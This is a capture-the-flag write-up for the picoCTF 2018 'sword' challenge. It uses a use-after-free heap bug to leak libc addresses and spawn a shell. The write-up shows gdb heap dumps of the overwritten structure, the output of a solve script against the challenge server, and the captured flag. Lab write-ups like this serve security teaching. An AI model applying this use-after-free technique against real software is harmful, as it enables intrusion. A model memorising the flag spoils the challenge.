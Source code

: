 # sword - Points: 800 - (Solves: 78)

Can you spawn a [shell][1] and get the flag?
Connect with nc 2018shell2.picoctf.com 43469.
[Source][2].
[libc.so.6][3]

[1]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/sword
[2]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/sword.c
[3]: https://2018shell2.picoctf.com/static/079dcd72e1f8f32e4f87c20892f89a3c/libc.so.6

## Hints

- ever heard of use after free?
- Make sure you are run/debug with the provided libc on the shell server

---

```txt
% ctags -x --c-kinds=vd sword.c
ALARM_TIME       macro        11 sword.c          #define ALARM_TIME 30
FORGE_TIME       macro        10 sword.c          #define FORGE_TIME 2
MAX_SWORD_LEN    macro         9 sword.c          #define MAX_SWORD_LEN 0x100
MAX_SWORD_NUM    macro         7 sword.c          #define MAX_SWORD_NUM 6
READ_INT_BUF_LEN macro         8 sword.c          #define READ_INT_BUF_LEN 32
sword_lists      variable     27 sword.c          struct sword_list_s sword_lists[MAX_SWORD_NUM];
```

Create 1st chunks and "harden" it with 256 length character 'A'.

{% raw %}

    --- sword_lists ------------------------------------
    $1 = {{
        is_used = 1,
        sword = 0x7d7010
      }, {
        is_used = 1,
        sword = 0x7d7040
      }, {
        is_used = 0,
        sword = 0x0
      }, {
        is_used = 0,
        sword = 0x0
      }, {
        is_used = 0,
        sword = 0x0
      }, {
        is_used = 0,
        sword = 0x0
      }}
    --- heap mapping -----------------------------------
    0x7d7010:       0x0000000000000000      0x00000000007d7040
    0x7d7020:       0x0000000000400b9d      0x0000000000000000
    0x7d7030:       0x0000000000000000      0x0000000000000031
    0x7d7040:       0x4141414141414141      0x0000000000602020
    0x7d7050:       0x4141414141414141      0x4141414100000000
    0x7d7060:       0x4141414141414141      0x0000000000020fa1
    0x7d7070:       0x4141414141414141      0x4141414141414141
    0x7d7080:       0x4141414141414141      0x4141414141414141
    0x7d7090:       0x4141414141414141      0x4141414141414141
    0x7d70a0:       0x4141414141414141      0x4141414141414141
    0x7d70b0:       0x4141414141414141      0x4141414141414141
    0x7d70c0:       0x4141414141414141      0x4141414141414141
    0x7d70d0:       0x4141414141414141      0x4141414141414141
    0x7d70e0:       0x4141414141414141      0x4141414141414141
    0x7d70f0:       0x4141414141414141      0x4141414141414141
    0x7d7100:       0x4141414141414141      0x4141414141414141
    (gdb) p *sword_lists[1].sword
    $5 = {
      name_len = 1094795585,
      weight = 1094795585,
      sword_name = 0x602020 "\220\326\024ǅ\177",
      use_sword = 0x4141414141414141,
      is_hardened = 0
    }

{% endraw %}

Result:

```sh
% py solve.py REMOTE
[*] '/home/zzzz/pico18/pwn/sword/sword'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RPATH:    './'
[*] '/home/zzzz/pico18/pwn/sword/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 2018shell2.picoctf.com on port 43469: Done
[*] puts @ plt    : 0x7fcf4aa51690
[*] libc          : 0x7fcf4a9e2000
[*] bin_sh        : 0x7fcf4ab6ed57
[*] system        : 0x7fcf4aa27390
[*] Switching to interactive mode
total 1920
drwxr-x---   2 hacksports sword_0       4096 Sep 28 08:29 .
drwxr-x--x 576 root       root         53248 Sep 30 03:50 ..
-r--r-----   1 hacksports sword_0         45 Sep 28 15:12 flag.txt
-rwxr-sr-x   1 hacksports sword_0    1868984 Sep 28 15:08 libc.so.6
-rwxr-sr-x   1 hacksports sword_0      18080 Sep 28 15:12 sword
-rw-rw-r--   1 hacksports hacksports    6358 Sep 28 15:12 sword.c
-rwxr-sr-x   1 hacksports sword_0        109 Sep 28 15:12 xinet_startup.sh
$ cat flag.txt
picoCTF{usE_aFt3R_fr3e_1s_aN_1ssu3_05365660}
$
```
